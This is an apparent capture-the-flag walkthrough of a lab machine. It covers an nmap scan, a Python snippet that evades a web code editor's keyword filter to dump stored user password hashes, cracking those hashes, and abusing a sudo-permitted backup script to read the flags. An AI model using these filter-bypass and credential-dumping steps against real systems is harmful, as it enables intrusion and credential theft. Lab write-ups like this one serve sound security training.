 

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXdr0ndDP6fXFqCPlErvcQhIJaPvdBClDqAhdMbJ5J0LfbsxtUpXd1IzdVRnMv1zBuJ1z8sWBXZk84Jy7p6LcoJMYQStkHobTfsyiwlFpVMGPQQl7zQKW1MBn13OALgCKKnW2wBYgg?key=UDACTsp0a3R2z-lctKGusA)

  
  

### Nmap Scan:

  
```nmap_scan
Nmap 7.95 scan initiated Sun Mar 23 00:07:19 2025 as: /usr/lib/nmap/nmap --privileged -sC -sV -oN Code_nmap.txt 10.10.11.62

Nmap scan report for 10.10.11.62 (10.10.11.62)

Host is up (0.46s latency).

Not shown: 998 closed tcp ports (reset)

PORT     STATE SERVICE VERSION

22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)

| ssh-hostkey: 

|   3072 b5:b9:7c:c4:50:32:95:bc:c2:65:17:df:51:a2:7a:bd (RSA)

|   256 94:b5:25:54:9b:68:af:be:40:e1:1d:a8:6b:85:0d:01 (ECDSA)

|_  256 12:8c:dc:97:ad:86:00:b4:88:e2:29:cf:69:b5:65:96 (ED25519)

5000/tcp open  http    Gunicorn 20.0.4

|_http-server-header: gunicorn/20.0.4

|_http-title: Python Code Editor

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

# Nmap done at Sun Mar 23 00:07:49 2025 -- 1 IP address (1 host up) scanned in 30.21 seconds
```
  

Looking in the nmap scan above, we see that there are two services running. The port 5000 is running a Gunicorn 20.0.4 which serves as the webserver and the port 22 which is the default ssh port. 

  
  

## Python Code Editor

The web page is a python code editor as shown in the image below.

  

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXcFmEuJHTipLNAY-awXmNizP3DRpBBkKP8LYD-2TD1qdp7L4VzDZstE1d7ncDZwiN-TXk-h9MAS7dWiludJ8vfl5hK-V33DsztFQezlITMf71xuZdwKn-0tmBb7LPMRXdmqHAfTeg?key=UDACTsp0a3R2z-lctKGusA)

  

Since we can run python codes here in the web server, we can try crafting our Command Injection payload and check if we could find something interesting. I don’t have much knowledge about python since I haven’t mainly used it in any of my projects yet so I tried searching the web and asking LLMs to craft our python script. I found out that there is a Server-Side Template Injection (SSTI) vulnerability in this site, however there are also filters that prohibit the users from running dangerous commands that can be used to dump credentials (see the image below). ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfDyiE2GE9TpgtyOP9aC3HDYNC4zppOISEFmU9noqyH3EEHIbgCdExDtf7qWpr1zxD96clZv4l9egbdsbnEYzIjCnxzG6toJ4bo43K8FTkuwWLabAVSV-mVj2D5xguasXr1YRZA?key=UDACTsp0a3R2z-lctKGusA)

  
  

After a lot of trial and error, I finally realized that this web app filters keywords such as import, os, and open. I also found a workaround script to bypass the filters which allowed me to dump the user credentials of the server as shown below:

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXco4EzP3lPplN-Sc5kEkYJswmvXXhhoSDnQbSMw_yKi4UK17AOIy241Y7ZViYTVNmZvxznCLYfodjetdEO6UKuwl_E0XjxSCwlcqGWOtjZXRfVsTE8YY5a-7W2GvlZlN6bHLW1FLg?key=UDACTsp0a3R2z-lctKGusA)

Python script:

```python

try:

    raise Exception(globals())

except Exception as e:

    g = e.args[0]

    User = g['User']

    users = User.query.all()

    for user in users:

        print(user.username, user.password)

  ```  

Result:

development 759b74ce43947f5f4c91aeddc3e5bad3 martin 3de6f30c4a09c27fc71932bfc68474be

  
  
  
  

I used [Crackstation.net](http://crackstation.net) to crack the passwords and surprisingly, it works which means it uses a weak hash/encryption mechanism. Additionally, the password is pretty weak. 

 ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXcL-CGlwGP0LQYAEwdmtwca7-JTwFLGP_3Q1hXbrSI--1mNU3oJloWp3sVIwU9mXo9ZbwvthjWyqh3UnDNxj2sEJtGq-cLafO9HCIfmrqVApnsEzI0vobUVqb_poLrLCZXPxm76zw?key=UDACTsp0a3R2z-lctKGusA)


  

## Initial Foothold

We got the martin’s password which is nafeelswordsmaster. Now we’re gonna login via ssh to get our initial foothold.

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfl5pAVFxODU9DucvtwZ72SeGXVuhQvz7bLDivpGaVZ5LUkvR6rDwpx33OBmCJnsf6V2WfvHCMR7wwkplGRadOzQXHP7eCHpLc4EHe9r33MNKBb105ikagD6Fo8v1lPpGStqQTsdQ?key=UDACTsp0a3R2z-lctKGusA)

  

We have successfully logged in as martin. Now we have to enumerate the directories and check for the user.txt file and look interesting files or binaries that could lead us to escalate our privileges.

## Flag 1: user.txt

I haven’t seen the user flag in martin’s home directory so I figured that it was located in another user’s home directory. I saw the task.json file which seems to be used for a binary file to archive files. I ran sudo -l just in case there’s an interesting binary that could lead us to escalate our privileges and surprisingly, there’s an interesting backy(.)sh that martin could run without the root’s password.

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfyFMWlg_oLuL8piwXSNlDI4ZtuP2LODWNOGFvfXQKPqvcQAClSzFP3vX_qCDhddtYARsYUTCBK-NNObvH18cysNjYZWaijIQphmOqQOpi-mXj-8DuxelfbR2JdtkWCT5TtZy0Mlw?key=UDACTsp0a3R2z-lctKGusA)

  

As I checked the backy(.)sh, it seems like this is the script that archives the files or directories specified in the task.json. ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfTBON3B3SwX9i1pfzG-n-vkIR3lKPNexg6mRL-dcQ18a435rmRbTaKXgv2TyMnYl9HAS-E_8Hhbdl9D9qbljhNAIvh7rxg_jSPatw-RujmjxGdwL1B-BQthSdqmI2DhkH9H7rRjA?key=UDACTsp0a3R2z-lctKGusA)

Initially, I checked the directory specified in the task.json if I have the permission to view it but it turns out that our current user doesn't have that privilege.

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfs49XApxBClDuDvnwL4uUFmZhkcD9s3Po_aCLpg9s0AdxFrpmt1REtATRo3kn_5foy3LFJEX7TxZ18zroQogUoZLh5_ezvjrMFdrXCaHCZGGo9JN8hLOUJnIcjakVXZr7PzhAr?key=UDACTsp0a3R2z-lctKGusA)

  

I modified the task.json a bit to archive the app-production directory as shown below:

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXdQCPdDLDh6hmSTlFUeFXWytmAJkDZ7J0MWBL9NTCE-wfUoGH6msQZqghH-4XU5-rQqfT5Flfsblz4waUexmPbSCYX9YKZRk7Utacp7TPzKkI92cydlS7TYaF99Bs0rPL2m9DNp8g?key=UDACTsp0a3R2z-lctKGusA)

  
  

After running the bash script, you’ll see something like this:

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXcRzeTAmypIhLeb6accfyexgML3enIqkqEMkhMJ6iSnuM3JtQ2iz7zZDSddeG1XjjI5GVagAw-iTjI878G4RParW2taRQv3r6bkWtFNvKzKuwULdKnpZEV8jTKlmrvP4t_NTJttsQ?key=UDACTsp0a3R2z-lctKGusA)

  

Extract the archive by using these commands:

```kali-terminal
tar -xjf <archive.tar.bz2>
```
- This will automatically extract the archive in one command.

or:

```kali-terminal
bunzip2 <archive.tar.bz2>
```
```kali-terminal
tar -xf <archive.tar>
```
- Where -x flag means extract and -f flag to specify the filename.

  
  
After extraction, look for the user.txt and use the cat command to read it.

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfnLlgt8fHjvD23peNpTstSX4umUwZxwhE6WM9W7CsEZ5_nwb1C2QKgrz33TqCRtu4uQOBO-7l2WyYNKzVGayuq0Vln27ji7jbfII5Ll34QaXt5KCYL3Q1OICd8lYrRfeArHYcnHg?key=UDACTsp0a3R2z-lctKGusA)

  
  
  

## Flag 2: Root Flag

Use the same method of getting the user flag but this time, you have to use a Local File Inclusion (LFI) technique to get the root flag. This is because if you read the backup script, you’ll see that there are directory restrictions wherein only the /home and the /var directories are permitted to be archived. I removed the “exclude” part because it seems like it affects the archive results.

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXd7N5IZgsRmo3Yf6QHUeggo9t5ezUmxF1XfkqKno_m78J9Pcy-FeA7FF_pSdfT1mUdfROdTCQNTsvgVFEVj9nYlZYGlDH5ay8x117EzDwMgN62gbVPZ2-N5XK5NGOL0DSqLf-f-Xg?key=UDACTsp0a3R2z-lctKGusA)
  

If you’ve done it correctly, you’ll be seeing the result similar to the image below:

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXcBAFedDkDlcQxfL7bgTvTXm0oHd5WbyduZyKCvEtwjQK8yrgf9YB6b8REyWR7_DjZ_-PFVLzCvtFXqgssVGJN8_uDsHB_HI1iEEVIvPjuT0r2UK4zZRPy4oiltlZIj78dGQMI2_w?key=UDACTsp0a3R2z-lctKGusA)


## Final Thoughts:
This is labeled as an “Easy” machine which I think doesn’t suit it well. It took me three nights before being able to get the user flag and the root flag.

Warning: This is a very unstable machine and resetting it multiple times could help because files are constantly changing and it really took me a lot of time and patience to hack this machine. Overall, I learned a lot of new things here.
